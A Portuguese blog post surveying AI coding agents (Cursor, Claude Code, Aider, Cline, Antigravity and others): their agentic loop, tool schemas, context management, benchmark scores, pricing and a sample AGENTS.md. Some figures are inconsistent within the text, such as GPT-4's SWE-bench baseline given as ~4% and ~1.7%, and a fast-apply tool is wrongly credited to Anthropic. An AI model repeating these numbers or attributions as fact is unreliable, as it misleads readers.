






# Post 19 — Loop agêntico de codificação: Cursor, Claude Code, Aider, Cline, OpenCode, Antigravity, Codex CLI e companhia

> **Série**: LLMs em Profundidade — Da Atenção ao TurboQuant e Além
> **Post**: 19 (horizontal — produto, engenharia de aplicação, *developer experience*)
> **Pré‑requisitos sugeridos**:
> - Post 14 (agents fundamentos, MCP, ReAct) — **ideal**, este post não repete os fundamentos.
> - Post 18 (reasoning models) — útil para entender por que reasoning + tools casa tão bem com codificação.
> - Post 16 (segurança em LLMs) — para a discussão de *lethal trifecta* aplicada a coding agents.
> - Post 11 (frameworks de inferência) — apenas referência.
> - Post 13 (RAG) — útil para *context management* em monorepos gigantes.
> **Tom**: prático, *opinionated* quando a evidência justifica, com saudável ceticismo. Coding agents é a área onde mais hype e mais entrega coexistem em 2026 — e onde o *vibe coding* é, ao mesmo tempo, o melhor truque do ano e a pior ideia para produção.
> **Objetivo**: dar **um mapa completo, atualizado e honesto** de coding agents — do *autocomplete* à execução autônoma em VM —, com anatomia do *loop agêntico*, comparativo de ferramentas (Cursor, Antigravity, Windsurf, Zed, Claude Code, Codex CLI, Aider, Cline, Continue, OpenCode, Goose, Devin, Replit Agent, Bolt, v0…) e receitas para montar seu próprio *setup*.

---

## TL;DR

Em **três anos** (2023 → 2026), assistentes de código deixaram de ser *autocomplete* glorificado e viraram **agentes que abrem PRs sozinhos**, rodam testes, leem *stack traces*, instalam dependências, executam o app, abrem o navegador para validar e, em alguns casos, dormem 30 minutos numa VM resolvendo um *issue* enquanto você toma café.

Os marcos:

1. **GitHub Copilot** (jun/2021): primeira onda de *autocomplete* via Codex (OpenAI). Mudou o teclado de milhões de devs.
2. **ChatGPT + GPT‑4** (nov/2022 → mar/2023): código no *chat*, sem IDE. *Copy‑paste* viralizou.
3. **Aider** (mai/2023, Paul Gauthier): primeiro **CLI agent** sério — *repo‑map*, *search/replace blocks*, **commit automático por mudança**.
4. **Cursor** (Anysphere, 2023 → 2026): *fork* do VS Code com cérebro embutido. *Tab autocomplete* dedicado, *Composer*, *Background Agents*, *Bug Bot*. Avaliação \$9B em 2025.
5. **Cline** (Saoud Rizwan, abr/2024 — ex‑*Claude Dev*): primeiro **agent autônomo dentro do VS Code**, *open‑source*, MCP nativo.
6. **Devin** (Cognition, mar/2024): primeiro **background agent** com VM + browser + planner. Anúncio polêmico ("primeiro engenheiro de software autônomo"), entrega real subiu com Devin 2.0 (abr/2025).
7. **Claude Code** (Anthropic, fev/2025 → 2026): CLI oficial da Anthropic, evolui em 2026 para **"AI OS"** com *Skills*, *Hooks*, *Subagents* e MCP de primeira classe.
8. **GitHub Copilot Workspace + Agent Mode** (2024 → 2025): GitHub responde com *PR‑level planning* e agente nativo no VS Code.
9. **Windsurf** (Codeium → adquirida pela OpenAI em 2025): *Cascade* (agent com *flow awareness*), *Tab predictions* preditivas (próximo arquivo).
10. **Google Antigravity** (18/nov/2025): IDE *agent‑first* da Google, com **Manage tab** para orquestrar múltiplos agentes em workspaces isolados, **Gemini 3 Pro** primário.
11. **Cursor Composer‑2** (19/mar/2026): primeiro modelo *in‑house* da Anysphere, treinado por RL para tarefas de **longa duração** (centenas de ações). 200k contexto, 73,7% em SWE‑bench Multilingual, ~86% mais barato que Composer‑1.5.
12. **OpenCode** (SST, 2025‑2026): CLI *open‑source* multi‑provider (75+ providers), sub‑agentes, GitHub Actions, MCP.
13. **SWE‑bench Verified**: salto de ~4% (2023, GPT‑4 *out‑of‑the‑box*) → **~80% (2025‑2026)** com modelos *frontier* (Claude 4.5/4.6/Opus 4.7, Gemini 3.1 Pro, GPT‑5.x). Codificar é tarefa **estruturada** — compilador, testes e *type checker* viram **oráculos automáticos**, ideal para *RL* e para *self‑correction* em *loop agêntico*.

O preço a pagar é honesto e crescente: **uma feature pode queimar 100k–1M tokens** num *loop* mal projetado; agentes alucinam APIs que não existem; *vibe coding* sem revisão coloca *secrets* no Git e *N+1 queries* em produção. Este post não vai vender milagre — vai **abrir o capô** de cada ferramenta, mostrar os *trade‑offs* e dar uma receita decente para você montar seu próprio *setup*.

> **Analogias‑guia deste post:**
> - **Loop agêntico de codificação** = *ciclo OODA* (Observe‑Orient‑Decide‑Act) do programador, automatizado: ler → planejar → editar → rodar → observar → corrigir.
> - **Apply model** = *estagiário* aplica o *patch* que o *arquiteto* (LLM forte) desenhou — barato, rápido, estúpido o suficiente para não inventar.
> - **Cursor** = "VS Code com cérebro embutido" — *fork* dedicado, não é extensão.
> - **Antigravity** = "VS Code do Google com hangar de drones" — você é o controlador de tráfego aéreo, não o piloto.
> - **Aider** = "*git commit* + LLM no terminal" — sem UI, máxima transparência.
> - **Claude Code** = "Claude com conta no seu *shell*" — o sistema operacional do raciocínio aplicado a *bash* e *git*.
> - **Devin** = "estagiário remoto que recebe ticket no Jira" — você não vê ele digitar; você lê o PR.
> - **MCP** = *USB‑C de tools* (Post 14) — uma vez plugado no agente, qualquer ferramenta serve.
> - **Sandbox** = *playground sem cano de água* — pode fazer bagunça sem inundar a casa.
> - **Vibe coding** (Karpathy 2025) = *improviso de jazz com IA* — lindo no protótipo, perigoso no banco de dados de produção.
> - **SDD (Spec‑Driven Development)** = *planta arquitetônica antes do tijolo* — o oposto saudável do *vibe coding*.

---

## Índice

1. [Por que coding agents merecem post próprio](#1-por-que-coding-agents-merecem-post-próprio)
2. [Anatomia do loop agêntico de codificação](#2-anatomia-do-loop-agêntico-de-codificação)
3. [Tools típicas de um coding agent](#3-tools-típicas-de-um-coding-agent)
4. [Context management — o problema central](#4-context-management--o-problema-central)
5. [Cursor (Anysphere) — deep dive](#5-cursor-anysphere--deep-dive)
6. [Google Antigravity — IDE *agent‑first*](#6-google-antigravity--ide-agent-first)
7. [Windsurf (Codeium → OpenAI)](#7-windsurf-codeium--openai)
8. [Zed e o Agent Panel](#8-zed-e-o-agent-panel)
9. [VS Code primeira‑classe (Copilot, Workspace, Agent Mode)](#9-vs-code-primeira-classe-copilot-workspace-agent-mode)
10. [Extensões agentes para VS Code: Cline, Continue, Roo Code](#10-extensões-agentes-para-vs-code-cline-continue-roo-code)
11. [CLI agents: Aider, Claude Code, Codex CLI, OpenCode, Goose, Crush, gptme](#11-cli-agents-aider-claude-code-codex-cli-opencode-goose-crush-gptme)
12. [Background agents (Devin, Replit Agent, Cursor BG, Copilot Coding Agent, Lovable, Bolt, v0)](#12-background-agents)
13. [Taxonomia: tipos de coding tools](#13-taxonomia-tipos-de-coding-tools)
14. [Edit formats — o detalhe técnico que decide tudo](#14-edit-formats--o-detalhe-técnico-que-decide-tudo)
15. [Apply model / speculative editing](#15-apply-model--speculative-editing)
16. [Sandboxes para coding agents](#16-sandboxes-para-coding-agents)
17. [Verifiers e self‑correction](#17-verifiers-e-self-correction)
18. [MCP em coding (cross‑link Post 14)](#18-mcp-em-coding-cross-link-post-14)
19. [Rules, instructions, memórias: AGENTS.md, CLAUDE.md, .cursorrules](#19-rules-instructions-memórias-agentsmd-claudemd-cursorrules)
20. [Eval de coding agents: SWE‑bench, TerminalBench, CursorBench, Aider Polyglot](#20-eval-de-coding-agents)
21. [Custos e ROI](#21-custos-e-roi)
22. [Patterns de produtividade](#22-patterns-de-produtividade)
23. [Vibe coding (Karpathy 2025) — o fenômeno e seus limites](#23-vibe-coding-karpathy-2025--o-fenômeno-e-seus-limites)
24. [Limitations e fracassos comuns](#24-limitations-e-fracassos-comuns)
25. [Privacy e segurança](#25-privacy-e-segurança)
26. [Tendências 2025–2027](#26-tendências-2025-2027)
27. [Receita: monte seu setup ideal (decision tree)](#27-receita-monte-seu-setup-ideal-decision-tree)
28. [Cross‑references na série](#28-cross-references-na-série)
29. [Referências](#29-referências)

---

## 1. Por que coding agents merecem post próprio

### 1.1. O mercado explodiu (de novo) em 2024–2026

O *Post 14* já cobre agentes em geral, *MCP* e *ReAct*. Aqui o foco é **coding‑specific**: agentes cuja superfície de ação é um *repo*, um *terminal* e — cada vez mais — um *navegador* para validar a UI. Em três anos:

- **Cursor** saltou de "*fork* obscuro do VS Code com chat" (2023) para **avaliação de US\$ 9 bilhões** em meados de 2025 (Anysphere, ~1M+ usuários ativos).
- **Anthropic** lançou **Claude Code** como *product* dedicado (fev/2025), com *system prompt* de centenas de linhas e *toolset* canônico.
- **Google** entrou no jogo com **Antigravity** (18/nov/2025), abandonando a postura de "Gemini é só uma API" para construir uma **IDE *agent‑first*** própria.
- **GitHub Copilot** virou **Copilot Workspace** (planejamento *PR‑level*) e ganhou **Agent Mode** nativo no VS Code (2025).
- **OpenAI** comprou **Windsurf** (ex‑Codeium) em 2025 e relançou o **Codex CLI** *open‑source*.
- **Cognition** lançou **Devin 2.0** (abr/2025) com IDE *agent‑native* e múltiplas sessões paralelas.
- **Replit** evoluiu de IDE em browser para **Replit Agent v2/Agent 3**, capaz de construir apps inteiros.
- **Lovable**, **Bolt.new**, **v0** ocuparam o nicho "construa um web app só descrevendo".
- **Cline** (ex‑*Claude Dev*) abriu o caminho para extensões agentes *open‑source* dentro do VS Code; **Roo Code** e **Continue** seguiram.
- **Aider** continuou sendo a referência minimalista no terminal e introduziu *enhanced repo‑map* com PageRank em 2025.
- **OpenCode** (SST) e **Goose** (Block) ergueram a bandeira *open‑source / multi‑provider* contra o *lock‑in*.

### 1.2. SWE‑bench: o termômetro que conta a história

| Modelo / Sistema | Ano | SWE‑bench Verified | Observações |
|---|---:|---:|---|
| GPT‑4 (zero‑shot) | 2023 | ~1.7% | Sem agente, sem *retrieval*. |
| Devin (1.0) | mar/2024 | 13.9% | Polêmico — *cherry‑pick* alegado. |
| SWE‑agent (Princeton) | mai/2024 | 12.5% | Primeiro *agent* aberto no benchmark. |
| GPT‑4o + agentless | 2024 | ~27% | "*Agentless*" — só *retrieval* + apply. |
| Claude 3.5 Sonnet (Anthropic SWE‑bench scaffold) | out/2024 | 49% | Primeiro salto grande. |
| Claude 3.5 Sonnet v2 + agent | dez/2024 | ~53% | — |
| OpenAI o1 + agent | dez/2024 | ~48% | Reasoning ajuda. |
| OpenAI o3 (high) | abr/2025 | ~71.7% | High‑compute mode. |
| Claude Sonnet 4.6 | 2026 | 79.6% | — |
| **GPT‑5.2** | 2026 | 80.0% | — |
| **Gemini 3.1 Pro** | 2026 | 80.6% | — |
| **Claude Opus 4.5** | 2026 | 80.9% | — |
| **Claude Opus 4.6** | 2026 | 87.6% | — |
| **Claude Opus 4.7** | 2026 | **93.9%** | Topo do *leaderboard* abr/2026. |
| **Antigravity (Gemini 3 Pro)** | 2026 | 76.2% | Plataforma como sistema. |
| **Cursor Composer‑2** | mar/2026 | (SWE‑bench Multilingual) 73.7% | Modelo *in‑house*, RL longo. |

Saltar de 4% (2023) para 80%+ (2026) em três anos é o tipo de curva que faz benchmark virar *moving target* — e força a indústria a inventar *SWE‑bench Live*, *SWE‑bench Multimodal*, *TerminalBench* e *CursorBench* só para continuar tendo *signal*.

### 1.3. Por que codificar é o "*sweet spot*" para agentes

Codificar tem três propriedades raras que agentes adoram:

1. **Oráculos automáticos**: compilador, *type checker*, *linter*, *tests*. Você não precisa de humano para dizer "está errado" — um `cargo check` ou um `pytest` faz isso de graça, em segundos.
2. **Estado verificável**: o `diff` é discreto, o `exit code` é binário, o *stack trace* é legível por LLM. Comparado com *agents* de pesquisa científica, planejamento de viagem ou atendimento, código tem **feedback denso**.
3. **Grandes corpora públicos**: GitHub, Stack Overflow, milhões de PRs com *test diffs*. Os modelos viram código a vida inteira no pretraining, depois são *fine‑tuned* em traces de SWE‑bench, CodeContests, *bug‑fixing*.

Some isso a um **pipeline de RL** com recompensa = `tests passam? exit_code == 0?` e você obtém Composer‑2 e Claude 4.7. É exatamente a *receita do o1/R1* (Post 18) aplicada a um domínio onde o "*verifier*" é trivial de implementar.

### 1.4. Timeline visual



---

## 2. Anatomia do loop agêntico de codificação

O *Post 14* descreve o **loop agêntico genérico** (ReAct, plan‑act‑observe). Aqui especializamos para **código**, com as 6 fases canônicas:



### 2.1. READ — entender antes de tocar

A primeira regra de um agente competente: **não edite o que você não leu**. Tools típicas:

- `read_file(path, offset?, limit?)` — leitura de trechos. Limites são vitais: arquivos de 5000 linhas estouram contexto.
- `glob(pattern)` — descoberta por padrão (`**/*.test.ts`).
- `grep(pattern, glob?, type?)` — *ripgrep* sob o capô (Cursor, Claude Code, Codex CLI usam `rg`).
- `list_dir(path)` — exploração estruturada.
- `git diff [base]...HEAD` — entender o estado do *branch*.
- `lsp.references(symbol)` — onde isto é usado? (LSP via MCP ou nativo).
- `tree-sitter parse(file)` — extrair *signatures* sem ler corpo de função.

### 2.2. PLAN — decompor antes de fazer

Aqui entra o `todo_write`/scratchpad. Modelos *frontier* aprenderam (via *fine‑tune* e *system prompts*) a:

1. Listar subtarefas como TODOs com `status: in_progress|pending|completed`.
2. Marcar 1 *in_progress* por vez.
3. Atualizar em tempo real conforme avança.

O efeito é duplo: (a) o usuário vê progresso, (b) o **modelo** se mantém focado em *long horizon* — *self‑prompting* via lista. Cursor, Claude Code e OpenCode ostentam essa tool de forma proeminente.

### 2.3. EDIT — modificar com precisão cirúrgica

Aqui mora o **detalhe técnico que decide tudo** (ver §14). Formatos:

- **Whole file write** (`write_file`): simples, custo alto, atômico.
- **Search/Replace block** (Aider): robusto, fácil de aplicar, padrão *de facto* da comunidade.
- **Unified diff (udiff)**: compacto, mas LLMs erram em *hunks*.
- **MultiEdit / apply model** (Cursor): LLM forte gera "*intenção*", modelo pequeno aplica.
- **Anthropic Morph** (*fast apply*): modelo dedicado, latência ~200 ms vs 5 s do regen completo.

### 2.4. RUN — validar contra a realidade

Sem `bash`, não há agente — só *autocomplete* glorificado. Comandos típicos:

- `pytest -xvs tests/test_foo.py::test_bar`
- `npm run test -- --watch=false`
- `cargo check && cargo test`
- `tsc --noEmit`
- `ruff check . && mypy src/`
- `docker compose up -d && curl localhost:8080/health`

A *granularidade* do comando importa: rodar **só o teste afetado** evita queimar tokens em logs irrelevantes.

### 2.5. OBSERVE — ler resultado de verdade

O agente precisa **ler stdout/stderr** e **classificar**:

- *exit_code == 0* → próxima fase
- *traceback* → identificar arquivo:linha do erro, voltar para READ
- *type error* → resolver imports/types
- *lint warning* → decidir se ignora ou corrige
- *test failure* → comparar `expected` vs `actual`

### 2.6. ITERATE — corrigir baseado em feedback

O *loop* fecha quando:

- ✓ Todos os testes passam, ✓ build verde, ✓ lint limpo, ✓ TODOs zerados.

Ou quando o agente atinge **limite de turnos** (segurança contra *infinite loop* — ver §24).

### 2.7. Comparação com o humano

Um *senior dev* faz exatamente isso: lê código, planeja, edita, roda, lê erro, edita de novo. A diferença é:

| Dimensão | Humano | Agent |
|---|---|---|
| **Velocidade por iteração** | 30 s–5 min | 2–30 s |
| **Velocidade por feature** | horas–dias | minutos–horas |
| **Custo por iteração** | salário | tokens (\$0.01–\$2.00) |
| **Memória de longo prazo** | excelente (anos) | quase nula (sem rules/memories) |
| **Foco em *long horizon*** | excelente | medíocre (ainda) |
| **Criatividade arquitetural** | alta | média (melhora 2026) |
| **Paciência para *boilerplate*** | baixa | infinita |
| **Risco de "alucinação"** | baixo | médio‑alto |

A síntese: **agente automatiza o que é tédio para humano** (boilerplate, refactor mecânico, fix de typo, ajustar testes) e **delega ao humano o que é interessante** (arquitetura, *trade‑offs*, decisões de produto).

---

## 3. Tools típicas de um coding agent

| Tool | Schema (resumido) | Gotchas |
|---|---|---|
| `read_file` | `{path, offset?, limit?}` | Sem `limit`, devora contexto. Codex/Claude truncam em 2k linhas por padrão. |
| `write_file` | `{path, contents}` | Sobrescreve sem aviso — alguns agents fazem `git stash` automático. |
| `edit` / `search_replace` | `{path, old_string, new_string, replace_all?}` | `old_string` precisa ser único; falha se houver duplicata. |
| `multi_edit` | `[{path, edits: [{old, new}]}]` | Atômico: ou aplica tudo ou nada. |
| `bash` / `run_command` | `{command, working_dir?, timeout_ms?}` | **Foreground vs background**; sem timeout dá *hang*. |
| `glob` | `{pattern}` | Padrões mal formados estouram milhares de matches. |
| `grep` (ripgrep) | `{pattern, glob?, type?, -A?, -B?, output_mode?}` | Use `files_with_matches` para descoberta, `content` só para inspeção. |
| `list_dir` | `{path}` | `node_modules/` e `.git/` quase sempre devem ser ignorados. |
| `git_*` | `{action, args}` | Nunca `git push --force` sem confirmação. |
| `web_search` | `{query}` | Datado: o modelo precisa **ver o ano corrente** no *system prompt*. |
| `web_fetch` | `{url}` | Risco de *prompt injection* via página (ver Post 16). |
| `read_lints` | `{paths[]}` | LSP diagnostics; só rodar após edits. |
| `todo_write` | `[{id, content, status}]` | "Performance theater" se mal usado — mas ajuda *frontier* a manter foco. |
| `web_browser` (Antigravity, Playwright MCP) | `{action, selector?, url?}` | Computer use — ver §27. |
| `screenshot` | `{path?, target?}` | Vital para iteração de UI. |
| `apply_patch` | `{patch}` | Formato Codex CLI (compatível com `git apply`). |

### Exemplo de schema JSON real (estilo Anthropic / Claude Code)

```json
{
  "name": "edit",
  "description": "Performs exact string replacements in a file. Fails if old_string is not unique.",
  "input_schema": {
    "type": "object",
    "properties": {
      "path": {"type": "string", "description": "Absolute path to the file"},
      "old_string": {"type": "string", "description": "Exact text to replace"},
      "new_string": {"type": "string", "description": "Replacement text"},
      "replace_all": {"type": "boolean", "default": false}
    },
    "required": ["path", "old_string", "new_string"]
  }
}
```

> **Boa prática para quem desenha tools próprias**: descreva *gotchas* na própria *description* (ex.: "old_string must be unique"). LLMs **leem** essas descrições e ajustam comportamento.

---

## 4. Context management — o problema central

### 4.1. O paradoxo do contexto infinito

Modelos *frontier* 2026 anunciam **1M tokens** (Gemini 3 Pro), **200k** (Claude/Cursor Composer‑2), **400k** (GPT‑5.x). Suficiente, certo? **Errado.**

- Repos médios têm **5–50M tokens** (sem `node_modules/`).
- Latência cresce com contexto: prefill de 1M token leva 30‑120 s mesmo em H200.
- Custo cresce linearmente (até com *cache*): 100 chamadas com 200k contexto cada = 20M tokens.
- **Atenção tem *needle problem***: jogar 500 arquivos no contexto **não** garante que o modelo ache o relevante (Post 02 e 07 sobre *long context*).

A solução: **buscar só o que importa**, em camadas.

### 4.2. Estratégias de context management



| Estratégia | Quem usa | Quando brilha | Custo |
|---|---|---|---|
| **Globbing + grep** | Cursor, Claude Code, Codex CLI, Aider | Repos textuais médios; padrões claros (nome de função/string) | Baixo, instantâneo |
| **Repo‑map** (skeleton) | **Aider** (PageRank + tree‑sitter, *original*) | Monorepos; agente precisa "saber que existe" | Médio (build inicial) |
| **AST parse** | Cline, Continue (parcial), Cursor | Refactor cross‑file; rename | Médio |
| **LSP symbol search** | Zed, Cline, Cursor (parcial) | Ir para definição, achar usos | Baixo (já indexado) |
| **Embeddings / RAG sobre código** | Cursor (índice local), Continue, Codeium | Discovery semântico ("onde fazemos auth?") | Alto (build do índice) |
| **MCP filesystem server** | OpenCode, Goose, Claude Code | Código em sistema externo (S3, GitHub remote, etc.) | Médio |

### 4.3. Repo‑map do Aider em detalhe

Aider construiu o que talvez seja a melhor solução *open‑source* de 2025 para *context management* sem RAG pesado:

1. **Tree‑sitter** parseia todos os arquivos do repo (rapidíssimo).
2. Extrai *symbols* (classes, funções, métodos) e *references*.
3. Constrói um **grafo dirigido**: `file_A → file_B` se `A` importa/chama símbolos de `B`.
4. Roda **PageRank personalizado** sobre o grafo, ponderado pelos arquivos que o usuário "mencionou" na conversa.
5. Imprime no contexto um *skeleton* enxuto:

```
src/auth.py:
  class AuthService:
    def login(username: str, password: str) -> Token: ...
    def logout(token: Token) -> None: ...
    def verify(token: Token) -> User: ...
src/users.py:
  class User: ...
  def get_user_by_id(id: int) -> User: ...
```

Tudo isso em **1‑3k tokens** — vs **dezenas de milhares** do código completo. Em 2025 ganhou versão *enhanced* (`--use-enhanced-map`) com heurística logarítmica refinada.

### 4.4. Cursor `@`‑mentions e Cline mentions

Cursor popularizou `@arquivo`, `@pasta`, `@docs`, `@web`, `@git` — o usuário **diz** ao agente o que ele deve carregar. É *low‑tech* mas brilhante: a melhor heurística de relevância continua sendo o cérebro humano que conhece o repo.

Cline tem `@file`, `@folder`, `@git`, `@terminal` — mesma ideia. Claude Code aceita drag‑and‑drop de arquivos no terminal e `@` para resolver paths.

---

## 5. Cursor (Anysphere) — deep dive

### 5.1. Stack técnico

- **Base**: *fork* do VS Code (mantido em sincronia com upstream), não extensão.
- **Inferência**: roteamento entre **GPT‑5.x/Codex**, **Claude 4.x/Opus 4.7**, **Gemini 3.x**, **Anthropic Computer Use**, e o modelo **Composer‑2** próprio.
- **RAG**: índice vetorial local + *symbol index* (codificado para `cmd+P` instantâneo).
- **Apply model**: pequeno modelo *in‑house* (rumored *Composer*‑derived) que aplica diffs descritivos.

### 5.2. Composer‑2 (mar/2026) — o modelo *in‑house*

Lançado em 19/mar/2026, é o **primeiro modelo *frontier* da Anysphere**. Treinado por **RL** especificamente para tarefas *agentic* de longa duração:

| Aspecto | Composer‑2 |
|---|---|
| **Contexto** | 200.000 tokens |
| **Treinamento** | RL com self‑summarization para *sustained focus* em centenas de ações |
| **Tools nativas** | edit, terminal, semantic search, web browse |
| **CursorBench** | 61.3 (Composer‑1.5: 44.2) |
| **Terminal‑Bench 2.0** | 61.7 (Composer‑1.5: 47.9) |
| **SWE‑bench Multilingual** | 73.7 (Composer‑1.5: 65.9) |
| **Pricing standard** | \$0.50 input / \$2.50 output (por M tokens) |
| **Pricing fast** | \$1.50 input / \$7.50 output |
| **Custo vs Composer‑1.5** | ~86% mais barato |

> **Leitura honesta**: Composer‑2 ainda **fica atrás** de GPT‑5.4 e Claude Opus 4.7 em SWE‑bench Verified (93.9%), mas o ponto não é "ser o melhor *model*" — é "ser o melhor para o *loop* do Cursor", que tem RL específico para o conjunto de tools da casa. Vantagem: integração e custo. Desvantagem: dependência de provider.

### 5.3. Surfaces de produto

| Surface | O que faz | Quando usar |
|---|---|---|
| **Tab autocomplete** (cursor‑small) | Completa no cursor, prevê próxima edição | Sempre ligado |
| **Composer / Agent mode** | Chat agentic com edits multi‑arquivo + terminal | Tarefa média |
| **Cmd+K inline edit** | Edição no escopo selecionado | Refactor pontual |
| **Background Agents** | Rodam em sandbox cloud, longa duração | Tarefa que pode demorar 10‑60 min |
| **Bug Bot** | Revisa PRs automaticamente, sugere fixes | Code review automatizado |
| **Cloud Agents** | Sandbox dedicada, *parallel runs* | Tarefas que precisam de VM isolada |

### 5.4. Rules, Memories, Hooks, MCP

- **AGENTS.md** (padrão *cross‑tool*, adotado em 2025): um arquivo por repo com instruções (também serve no Claude Code, OpenCode, Codex CLI).
- **`.cursorrules`** (legado, sendo migrado para AGENTS.md).
- **Memories**: project‑specific, persistentes entre sessões (Cursor armazena em `~/.cursor/projects/<hash>/`).
- **Hooks**: *PreToolUse / PostToolUse / SessionStart* — automação tipo "rodar `prettier` antes de cada commit do agente".
- **MCP**: *first‑class* — servidores MCP aparecem como tools nativas; auto‑discovery de servidores em `~/.cursor/mcp.json`.

### 5.5. Pricing 2026

| Plano | Preço (mês) | Inclui |
|---|---:|---|
| Pro | \$20 | Modelos *frontier* com quota generosa, Composer‑2 incluso, MCP |
| Ultra | \$40 | Mais quota, prioridade, *background agents* incluídos |
| Max | \$200 | Quota maciça, *enterprise features*, *priority support* |

### 5.6. AGENTS.md — exemplo

```markdown
# AGENTS.md

## Stack
- TypeScript strict mode
- React 19 + Tailwind 4
- Backend: Hono + Drizzle ORM + Postgres
- Test: Vitest + Playwright

## Convenções
- Use `pnpm`, não `npm`/`yarn`.
- Componentes em `src/components/`, kebab-case (user-card.tsx).
- Hooks em `src/hooks/`, prefixo `use`.
- Não usar `any`; preferir `unknown` + type narrowing.

## Comandos
- Test: `pnpm test`
- Type-check: `pnpm typecheck`
- Lint: `pnpm lint`
- Build: `pnpm build`

## Antes de commitar
- Sempre rodar `pnpm test` E `pnpm typecheck`.
- Nunca commitar `.env*` ou arquivos com chaves API.
- PRs pequenos (<300 linhas alteradas).
```

---

## 6. Google Antigravity — IDE *agent‑first*

